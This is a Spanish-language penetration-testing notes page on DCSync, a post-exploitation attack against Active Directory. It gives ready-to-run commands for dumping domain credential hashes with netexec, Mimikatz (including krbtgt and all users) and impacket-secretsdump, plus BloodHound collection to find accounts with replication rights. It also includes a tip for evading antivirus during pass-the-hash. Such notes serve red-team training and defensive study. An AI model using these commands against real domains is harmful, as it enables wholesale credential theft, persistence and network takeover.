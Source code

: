 # DCSync

Tags: #AD #DCSync #Persistencia #Windows 

DCSync es una técnica de post-explotación en entornos Windows, específicamente en redes que operan con Active Directory (AD). Este método permite a un atacante con privilegios elevados imitar las funciones de un Controlador de Dominio (DC) para obtener información sensible de otros DCs. Entre los datos comprometidos se incluyen hashes de contraseñas de usuarios, claves de cifrado de Kerberos y otros elementos protegidos que normalmente solo están disponibles para los Controladores de Dominio.

```bash 
# Cómo funciona DCSync
1. Privilegios Necesarios: Para ejecutar un ataque DCSync, el atacante necesita tener privilegios de nivel alto en el dominio, típicamente como un usuario con el rol de "Domain Admin" o similar.
2. Mimikatz y DCSync: Una de las herramientas más populares que implementa este ataque es Mimikatz. Mimikatz tiene un módulo llamado 'lsadump' que puede utilizarse para realizar un ataque DCSync.
3. Replicación de Directorio: El ataque se basa en la funcionalidad legítima de replicación de directorio entre Controladores de Dominio. El protocolo de replicación de AD, MS-DRSR (Microsoft Directory Replication Service (DRS) Remote Protocol), permite a un DC obtener actualizaciones de datos de otro DC. Un atacante puede utilizar este protocolo para simular una solicitud de replicación.
4. Solicitud de Datos de Cuentas: Un atacante puede solicitar los datos de ciertas cuentas específicas, o incluso de todas las cuentas en el dominio, lo que incluye los hashes de las contraseñas de NTLM y los tickets de Kerberos (TGTs).
5. Extracción de Información Sensible: El ataque permite que el atacante extraiga información que puede ser utilizada para aumentar su nivel de acceso o para comprometer aún más la red, realizando ataques de movimiento lateral o elevación de privilegios.
```

```powershell 
## Extracción de Credenciales del Dominio de Active Directory

Cuando se realiza una tarea tan crítica como la extracción de credenciales de un dominio de Active Directory, es fundamental comprender la importancia y la sensibilidad de los archivos involucrados. El archivo NTDS.dit es esencialmente el corazón de AD, ya que contiene todas las cuentas de usuario, contraseñas hash y otros datos críticos del dominio. Por lo tanto, es un objetivo primordial en las actividades de post-explotación y debe ser manejado con extrema precaución y bajo estrictas medidas de seguridad.

El archivo de sistema, comúnmente conocido como el hive SYSTEM, contiene configuraciones clave del sistema y es necesario para descifrar los hashes de contraseñas almacenados en NTDS.dit.

Normalmente, puedes encontrar el archivo ntds.dit en dos ubicaciones:

❯ 'systemroot\NTDS\ntds.dit'
❯ 'systemroot\System32\ntds.dit'
    
Y la ruta del SYSTEM en:

❯ 'C:\Windows\System32\SYSTEM'

Es común que estos archivos sean el objetivo principal de herramientas de extracción de credenciales, como el ataque DCSync que emula el comportamiento de un controlador de dominio solicitando información de usuario de otros controladores de dominio sin necesidad de ejecutar código en el controlador de dominio objetivo.
```

```bash 
# Estos privilegios los tienen los usuarios 'Domain Admin' 

1. DS-Replication-Get-Changes
2. Replicating Directory Changes All
3. Replicating Directory Changes In Filtered Set 
```

## Utilizando Netexec

```powershell
# Comando para usuarios con altos privilegios 

❯ nxc smb IP -u "admin" -p "Password@1" -d "domain1.corp" --ntds   # Nos muestra loas hashes de los usuarios, por lo que se puede hacer 'Pass-The-Hash'
```

## Utilizando Mimikatz

```powershell
❯ .\mimikatz.exe 
	# lsadump::dcsync /domain:domain1.corp /user:krbtgt    # Obtener el hash NTLM
```

```powershell
# Para exfiltrar todos los usuarios del dominio:

❯ .\mimikatz.exe
	# lsadump::dcsync /domain:domain1.corp /all /csv
```

## Utilizando Impacket-secretsdump

```powershell
❯ impacket-secretsdump domain1.corp/user@IP-DC 
❯ impacket-secretsdump domain1.corp/user:passwd@IP_DC
❯ impacket-secretsdump -debug -dc-ip IP_DC admin@domain1.corp -hashes :64fbae31cc352fc26af97cbdef151e03 
	
	# debug = Obtener mas info 
	# dc-ip = Dirección IP del DC
	# upn 'UserPrincipalName' = Nombre del usuario y DC
	# hashes = Hash ':NT' del usuario 

Notas: 
	1. Este ataque funciona si el usuario del cual tenemos las credenciales tiene los derechos de 'GetChanges y GetChangesAll' sobre el usuario 'Administrator'  
	2. Es mejor hacer un 'Pass-The-Hash' con el 'aes256' que con el 'rc4' ya que los AV los detectan más fácil 
```

## Ataque de privilegios 'DCSYNC'

```bash 
# Obtener usuarios validos y analizar si alguno de ellos tiene los permisos necesarios para hacer el ataque de DCSync 

Pasos:
> bloodhound          # Iniciarlizar BloodHound
# Recolectar informacion del DC 
> bloodhound-python -c All -u 'user' -p 'passwd' -d domain.corp -ns IP  
```